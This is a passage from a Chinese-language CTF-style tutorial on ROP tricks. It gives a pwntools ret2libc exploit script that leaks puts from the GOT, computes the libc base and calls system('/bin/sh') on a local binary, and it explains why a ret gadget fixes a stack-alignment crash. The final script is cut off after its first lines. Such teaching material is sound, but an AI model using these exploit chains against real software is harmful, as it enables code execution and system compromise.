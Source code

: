 ```python
puts_got = elf.got["puts"]

main_addr = elf.sym["main"]

payload = b"a" * 0x28
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main_addr)

p.send(payload)

puts_addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00"))
log.success("puts_addr: " + hex(puts_addr))
libc_base = puts_addr - libc.sym["puts"]
log.success("libc_base: " + hex(libc_base))

system_addr = libc_base + libc.sym["system"]
binsh_addr = libc_base + next(libc.search(b"/bin/sh"))

payload = b"a" * 0x28
payload += p64(pop_rdi)
payload += p64(binsh_addr)
payload += p64(system_addr)

gdb.attach(p)
p.send(payload)

p.interactive()
```

但是通过调试会发现程序会在执行到下图这个阶段的时候无法正常执行。这个是因为`xmm0`等寄存器是128位的，当往内存里存取值的时候，指针需要对齐到`0x10`，而此时`rsp + 0x50`的末位为8，并没有对齐，最终导致程序异常。

![image-20230807221551871](images/ROP_Tricks/image-20230807221551871.png)

解决方法也很简单，只需在payload中加一个`ret`即可（具体原理就留给大家自己思考了）。最终脚本如下：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")
libc = ELF("./libc-2.31.so")

pop_rdi = 0x00000000004011F3
```